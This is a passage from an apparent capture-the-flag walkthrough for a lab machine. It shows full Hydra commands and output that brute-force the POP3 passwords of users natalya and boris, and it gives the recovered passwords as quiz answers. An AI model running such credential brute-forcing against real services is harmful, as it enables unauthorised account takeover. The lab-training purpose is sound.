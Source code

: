 ## #2.2 - If those creds don't seem to work, can you use another program to find other users and passwords? Maybe Hydra?Whats their new password?

*Hint: pop3*

Let's try to find `natalya`'s pop3 password. I ran hydra during 10min+ with `rockyou.txt` before stopping and trying with another dictionnary:

~~~
$ hydra -l natalya -P /data/src/wordlists/fasttrack.txt pop3://10.10.7.77:55007
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-24 17:02:37
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://10.10.7.77:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[STATUS] 64.00 tries/min, 128 tries in 00:02h, 94 to do in 00:02h, 16 active
[55007][pop3] host: 10.10.7.77   login: natalya   password: bird
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-24 17:04:56
~~~

Can we also find boris' password?

~~~
$ hydra -l boris -P /data/src/wordlists/fasttrack.txt pop3://10.10.7.77:55007
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-24 17:14:58
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://10.10.7.77:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[STATUS] 64.00 tries/min, 128 tries in 00:02h, 94 to do in 00:02h, 16 active
[55007][pop3] host: 10.10.7.77   login: boris   password: secret1!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-24 17:17:38
~~~

The expected answer is boris' pop3 password: `secret1!`

## #2.3 - Inspect port 55007, what services is configured to use this port?

According to Nmap, Dovecot POP3 is running on port 55007. We can connect using `telnet`.

## #2.4 - Login using that service and the credentials you found earlier.
